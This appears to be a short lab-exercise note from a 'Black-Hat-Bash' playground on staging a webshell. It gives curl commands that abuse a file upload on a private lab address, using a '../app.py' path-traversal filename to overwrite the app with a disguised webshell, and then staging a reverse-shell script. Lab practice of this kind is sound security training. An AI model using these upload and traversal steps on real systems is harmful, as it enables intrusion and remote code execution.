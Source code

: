 # Options to stage webshell

## Burpsuite

Use this GUI tool to tamper HTTP request.

## cURL

Upload sample image:
```
curl -X POST "http://172.16.10.10:8081/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@/home/kali/Projects/Black-Hat-Bash/LAB-PLAYGROUND/exercises/webshell-to-reverse-shell/pwc.jpeg;filename=pwc.jpeg"
```

Stage webshell file into `../app.py` file (note that file should be uploaded with `jpeg` extension):
```
curl -X POST "http://172.16.10.10:8081/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@/home/kali/Projects/Black-Hat-Bash/LAB-PLAYGROUND/exercises/webshell-to-reverse-shell/app_with_webshell.jpeg;filename=../app.py"
```

Stage reverse shell script (make sure to make is executable and change file extension to `.sh`):
```
curl -X POST "http://172.16.10.10:8081/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@/home/kali/Projects/Black-Hat-Bash/LAB-PLAYGROUND/exercises/webshell-to-reverse-shell/run_rs.sh.jpeg"
```
